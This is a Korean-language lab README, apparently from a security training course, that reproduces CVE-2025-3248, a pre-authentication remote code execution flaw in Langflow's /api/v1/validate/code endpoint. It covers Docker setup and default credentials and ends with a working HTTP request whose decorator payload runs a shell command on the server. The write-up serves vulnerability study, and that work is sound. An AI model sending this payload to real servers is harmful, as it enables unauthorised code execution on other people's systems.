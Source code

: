 #  Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

> 화이트햇 스쿨 3기 5반 - [유진우 (@jin182)](https://github.com/jin182)

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, 사용자는 웹 기반의 Python 인터페이스를 통해 시각적으로 AI 파이프라인을 구성할 수 있습니다.

버전 1.3.0 미만의 Langflow에는 심각한 인증 우회 원격 코드 실행(RCE) 취약점인 CVE-2025-3248이 존재합니다.
취약한 엔드포인트 /api/v1/validate/code는 사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, 함수 정의를 exec()를 이용해 실행함으로써 유효성을 검사합니다.
하지만 Python에서는 데코레이터나 기본 인자 값도 함수 정의 시점에 실행되기 때문에, 이를 악용해 임의의 코드 실행이 가능합니다.

공격자는 악성 데코레이터 또는 기본 인자 표현식을 포함한 특수 제작된 함수 정의를 이 API에 전송함으로써, 서버 사용자 권한으로 코드를 실행할 수 있습니다.

참고자료:
- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

환경 구성
아래 명령어를 실행하면 Langflow 1.2.0 서버가 Docker로 실행됩니다:

```
docker compose up -d
```

![](1.png)

서버가 실행되면, 웹 인터페이스는 `http://your-ip:7860`에서 접근할 수 있으며
기본 로그인 정보는 administrator:vulhub입니다.

![](2.png)

취약점 재현
다음은 이 취약점을 재현하는 방법입니다.
`/api/v1/validate/code` 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송하면 됩니다.
아래 예시는 데코레이터를 통해 서버에서 `id` 명령을 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

![](3.png)